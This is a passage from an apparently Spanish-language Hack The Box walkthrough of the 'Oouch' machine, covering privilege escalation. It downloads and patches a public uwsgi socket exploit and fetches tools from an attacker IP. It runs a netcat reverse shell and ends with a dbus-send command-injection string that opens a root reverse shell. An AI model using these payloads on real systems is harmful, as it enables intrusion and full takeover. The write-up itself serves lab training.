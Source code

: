 ```
www-data    40  0.0  1.1  70012 48272 ?        S    Jul31   0:01 uwsgi --ini uwsgi.ini --chmod-sock=666
```
Haciendo una búsqueda en google encontre un exploit muy interesante.

Exploit: (https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py)

Para que el exploit se ejecute con éxito haz la esta modificación:

```python
def sz(x):
    s = hex(x if isinstance(x, int) else len(x))[2:].rjust(4, '0')
    s = bytes.fromhex(s)
    return s[::-1]
```
Me comparto netcat y el exploit con un servidor en python y los descargo en la máquina.

```
$ wget [http://10.10.14.4/uwsgi_exp.py](http://10.10.14.4/uwsgi_exp.py)
$ wget [http://10.10.14.4/nc](http://10.10.14.4/nc)
```

![](https://lh6.googleusercontent.com/6kZ0pBSMSB-5ydzVQ4uM_c8HbCgmcF94-jFPCkkje2Y-Frqbcpopwrv9Nn0_N6qu2OAM-eGx942T8tAjRBtzVC32_-2Y6Jc_FMTseGzbU--GmV_61pMN_q23lZvD9B_cGd60Cgf3)

Ahora, utilizo la scp para pasar los mismo archivos al docker.

![](https://lh6.googleusercontent.com/SHKcmY037Ubw3iyyfcdpPFjl5q6AwoSvgwxIH-U23RhtiSDwvksL80mQ1xvIn_YCoWJzQjA2FJA20tFVHmfNzza7HAV-YKpvJ7Xeo11R7HATjHejt3kc6oBFp1pTMNW-QmfAVgnV)

```
$ scp uwsgi_exp.py qtc@172.18.0.5:/dev/shm
$ scp nc qtc@172.18.0.5:/dev/shm
```

Por último ejecuto el exploit:

```
$ python uwsgi_exp.py -m unix -u /tmp/uwsgi.socket -c "./nc -e /bin/bash 172.17.0.1 1234"
```

![](https://lh4.googleusercontent.com/ElacTqp-D1QmDk2k4K7ZI0oBtBtLqL0a8vUcILNZBLEybAP25Dz_elS2_mxdD6v0hFmTPtSQtqIO92vuujKDhrsrqvdalsrJKnNzrxk1JsgoJqkcontHP4WJifoHdL_BQe9s1DgR)

## Obtener shell como root.

Y para finalizar este post ahora si podemos hacer uso de `dbus-send` para enviarnos una sesión de netcat como root.

```
$ dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block htb.oouch.Block.Block "string:;rm /tmp/.0; mkfifo /tmp/.0; cat /tmp/.0 | /bin/bash -i 2>&1 | nc 10.10.14.4 1234 >/tmp/.0;"
```
![](https://lh6.googleusercontent.com/LECWtm_dmeoVlOVMjiTvNnE8Ha79ivUo0Jy32modq5hYvCuJdID3fXC-iCq2JTKAOOkuaqOayH409K9NiKUz9Z50NtfNq98pG0XXgvpd1w5mMAwR3veZW034sZ9sce8oABuT2wU0)

# **¡¡Somos Root!!**
![](https://pm1.narvii.com/6976/32ed09635c1b75def4c2f50601925243a70e036dr1-891-1382v2_hq.jpg)
